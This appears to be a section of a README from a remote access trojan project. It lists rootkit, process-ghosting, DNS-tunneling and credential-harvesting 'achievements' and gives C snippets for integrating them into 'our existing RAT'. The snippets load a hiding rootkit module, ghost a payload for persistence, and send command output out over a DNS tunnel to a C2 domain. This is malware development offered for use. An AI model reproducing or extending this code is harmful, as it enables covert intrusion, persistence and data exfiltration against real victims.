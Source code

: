 ## 📊 TECHNICAL ACHIEVEMENTS

### Advanced Techniques Demonstrated:

1. **Kernel-Level Programming**
   - Direct syscall table manipulation
   - Kernel memory management
   - Module hiding techniques

2. **Process Manipulation**
   - Transaction NTFS exploitation
   - Memory-only execution
   - Process impersonation

3. **Covert Channels**
   - DNS protocol abuse
   - Data encoding/chunking
   - Traffic obfuscation

4. **Credential Access**
   - Multi-source harvesting
   - Memory extraction
   - Privilege escalation

---

## 🔧 INTEGRATION WITH EXISTING RAT

These Phase 3 modules can be integrated with our existing RAT:

### 1. Rootkit Integration
```c
// In commands.c
int cmd_install_rootkit() {
    system("insmod /tmp/stitch_rootkit.ko");
    // Hide our process
    kill(getpid(), 63);
    return 0;
}
```

### 2. Process Ghosting for Persistence
```c
// Use ghosting for spawning new processes
ghost_process("/tmp/payload", NULL);
```

### 3. DNS Tunneling for C2
```c
// Alternative C2 channel when main channel blocked
dns_tunnel_t* tunnel = dns_tunnel_init("8.8.8.8", "c2.domain.com");
dns_tunnel_send(tunnel, command_output, output_len);
```
